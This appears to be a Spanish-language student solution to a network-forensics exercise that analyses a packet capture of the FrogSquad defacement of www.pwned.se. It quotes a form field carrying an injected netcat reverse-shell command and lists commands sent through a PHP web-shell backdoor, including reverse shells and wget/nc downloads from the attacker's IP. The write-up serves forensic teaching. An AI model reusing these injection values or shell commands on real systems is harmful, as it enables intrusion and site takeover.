 # EJERCICIO 1

## El colectivo de hackers FrogSquad desfiguró www.pwned.se el 12 de marzo a las 12:58 UTC.
## Los atacantes subieron una imagen de FrogSquad a: www.pwned.se/skyblue/fr.jpg

## Ejercicio 1.1 y 1.2

## ¿Qué dirección IP utilizaron los atacantes?  
## ¿Cómo consiguió el atacante subir el archivo fr.jpg al servidor web?

1. Buscamos el archivo fr.jpg

2. Analizamos la primera peticion get. ID = 89004. Analizamos IP de destino 217.195.49.146

3. Filtramos por esta IP y por el metodo post

**ip.addr == 217.195.49.146  && http.request.method == "POST"**

4. Analizamos los paquetes que hemos encontrado en busqueda de algo fraudulento.

```plaintext

HTML Form URL Encoded: application/x-www-form-urlencoded
    Form item: "cid" = "3"
    Form item: "name" = "test" | **nc -e /bin/sh 217.195.49.146** 63122; echo ""
    Form item: "email" = "xx@xx"
    Form item: "subject" = "xx"
    Form item: "message" = "xx"
    Form item: "action" = "Send"
    Form item: "mailinglist" = "1"
    Form item: "cc" = "0"
```

**SOLUCION: La IP atacantes es 217.195.49.146 y han introducido una shell a traves de un formulario.**

## Ejercicio 1.3

## Muestra cómo se veía la página web después del defacement para la URL http://www.pwned.se/skyblue/

1. Para mostrar como se ha quedado la paquina web "Archivo" , "Exportar Objetos" , "HTTP" , Buscamos "fr.jpg"

(Buscamos eso por que sabemos que es la imagen que han introducido en el Ataque)

[IMAGEN](./fr.jpg)

## Ejercicio 1.4 

##  Lista todos los comandos que FrogSquad envió usando la puerta trasera cm0 el 12 de marzo.

1. Buscamos que ha mandado por la puerta trasera cm0

**ip.addr == 217.195.49.146 && http.request.uri contains "cm0"**


```plain
cm0.php?cmd=pwd
/cm0.php?cmd=pwd
/skyblue/cm0.php?cmd=pwd
/skyblue/cm0.php?cmd=cat index.php
/skyblue/cm0.php?cmd=ls
/skyblue/cm0.php?cmd=ls
/skyblue/cm0.php?cmd=nc 217.195.49.146 63129 > fr.html
/skyblue/cm0.php?cmd=ls
/skyblue/cm0.php?cmd=cat fr.html
/skyblue/cm0.php?cmd=nc 217.195.49.146 63129 >FrogSquad.jpg
/skyblue/cm0.php?cmd=ls
/skyblue/cm0.php?cmd=ls -l F*
/skyblue/cm0.php?cmd=nc 217.195.49.146 63129 >FrogSquad.jpg
/skyblue/cm0.php?cmd=ls -l F*
/skyblue/cm0.php?cmd=wget http://217.195.49.146:63129/fr.html
/skyblue/cm0.php?cmd=wget http://217.195.49.146:63129/fr.gif
/skyblue/cm0.php?cmd=ls
/skyblue/cm0.php?cmd=ls -lrt
/skyblue/cm0.php?cmd=wget -?
/skyblue/cm0.php?cmd=wget -? 2>&1
/skyblue/cm0.php?cmd=wge 2>&1
/skyblue/cm0.php?cmd=ls -l F*
/skyblue/cm0.php?cmd=ls -l fr*
/skyblue/cm0.php?cmd=nc -e /bin/sh 217.195.49.146 63122
/skyblue/cm0.php?cmd=ls -l
/skyblue/cm0.php?cmd=ls -la
/skyblue/cm0.php?cmd=ls -la 2>&1
/skyblue/cm0.php?cmd=ls -la
```


